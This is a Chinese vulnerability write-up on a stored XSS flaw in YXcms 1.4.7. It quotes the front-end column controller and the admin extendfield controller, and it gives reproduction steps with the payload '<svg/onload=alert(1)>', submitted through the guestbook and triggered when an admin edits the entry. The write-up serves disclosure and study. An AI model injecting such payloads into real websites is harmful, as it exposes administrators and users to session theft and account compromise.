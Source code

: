 YXcms 1.4.7 储存型xss
=====================

一、漏洞简介
------------

二、漏洞影响
------------

YXcms 1.4.7

三、复现过程
------------

### 漏洞分析

前台的文件源码protected/apps/default/controller/columnController.php

    public function index()
    {
        $ename=in($_GET['col']);
        if(empty($ename)) throw new Exception('栏目名不能为空~', 404);
        $sortinfo=model('sort')->find("ename='{$ename}'",'id,name,ename,path,url,type,deep,method,tplist,keywords,description,extendid');
        $path=$sortinfo['path'].','.$sortinfo['id'];
        $deep=$sortinfo['deep']+1;
        $this->col=$ename;
        switch ($sortinfo['type']) {
            case 1://文章
                $this->newslist($sortinfo,$path,$deep);
                break;
            case 2://图集
                $this->photolist($sortinfo,$path,$deep);
                break;
            case 3://单页
                $this->page($sortinfo,$path,$deep);
                break;
            case 4://应用

                break;
            case 5://自定义

                break;
            case 6://表单
                $this->extend($sortinfo,$path,$deep);
                break;
            default:
                throw new Exception('未知的栏目类型~', 404);
                break;
        }
    }

后台的文件源码protected/apps/admin/controller/extendfieldController.php

    public function mesedit()
    {
        $tableid=intval($_GET['tabid']);
        if(!$this->checkConPower('extend',$tableid)) $this->error('您没有权限管理此独立表内容~');
        $id=intval($_GET['id']);//信息id
        if(empty($tableid) || empty($id) ) $this->error('参数错误~');
        $tableinfo = model('extend')->select("id='{$tableid}' OR pid='{$tableid}'",'id,tableinfo,name,type,defvalue','pid,norder DESC');
        if(empty($tableinfo)) $this->error('自定义表不存在~');
        if (!$this->isPost()) {
           $info=model('extend')->Extfind($tableinfo[0]['tableinfo'],"id='{$id}'");
           $this->info=$info;
           $this->tableid=$tableid;
           $this->id=$id;
           $this->tableinfo=$tableinfo;
           $this->display();
        }else{
           for($i=1;$i<count($tableinfo);$i++){
            if(is_array($_POST[$tableinfo[$i]['tableinfo']]))
              $data[$tableinfo[$i]['tableinfo']]=implode(',',$_POST[$tableinfo[$i]['tableinfo']]);
            else
              $data[$tableinfo[$i]['tableinfo']]=html_in($_POST[$tableinfo[$i]['tableinfo']]);
           }
           if(model('extend')->Extup($tableinfo[0]['tableinfo'],"id='{$id}'",$data)) $this->success('修改成功~',url('extendfield/meslist',array('id'=>$tableid)));
           else $this->error('信息修改失败~');
         }
    }

中间没什么过滤

### 复现

    http://0-sec.org/index.php?r=default/column/index&col=guestbook

payload：

    <svg/onload=alert(1)>

![](./.resource/YXCMS1.4.7储存型xss/media/rId26.png)

然后登陆后台，查看审核

![](./.resource/YXCMS1.4.7储存型xss/media/rId27.png)

点击编辑

image
